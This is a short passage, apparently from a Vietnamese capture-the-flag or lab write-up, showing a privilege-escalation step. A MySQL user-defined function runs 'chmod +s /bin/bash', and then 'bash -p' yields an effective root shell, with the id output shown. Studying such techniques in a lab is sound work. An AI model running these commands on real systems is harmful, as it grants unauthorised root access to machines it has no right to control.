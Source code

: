 PrivEsc:

```console
MySQL [mysql]> select do_system('chmod +s /bin/bash');
```

Và sử dụng `/bin/bash -p` như mục #4 có đề cập là lên được root:

```console
$ /bin/bash -p
bash-5.12# id
uid=1000(user) gid=1003(user) euid=0(root) egid=0(root) groups=0(root),...
```
